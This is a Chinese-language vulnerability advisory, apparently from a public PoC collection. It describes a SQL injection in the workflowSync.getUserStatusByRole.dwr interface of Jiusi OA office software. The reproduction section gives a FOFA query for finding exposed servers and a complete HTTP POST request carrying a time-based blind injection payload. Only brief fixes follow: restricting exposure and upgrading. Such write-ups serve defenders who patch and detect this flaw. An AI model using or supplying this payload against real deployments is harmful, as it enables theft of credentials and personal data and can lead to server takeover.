

# 九思OA workflowSync.getUserStatusByRole.dwr SQL注入漏洞

# 漏洞描述

北京九思协同办公软件 /jsoa/workflow/dwr/exec/workflowSync.getUserStatusByRole.dwr接口处存在SQL注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

# 影响版本

北京九思协同办公软件

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="九思软件-OA"

POC/EXP：

POST /jsoa/workflow/dwr/exec/workflowSync.getUserStatusByRole.dwr HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

callCount=1
c0-scriptName=workflowSync
c0-methodName=getUserStatusByRole
c0-id=1
c0-param0=string:1
c0-param1=string:1 union select 0,sleep(5)#
xml=true

# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
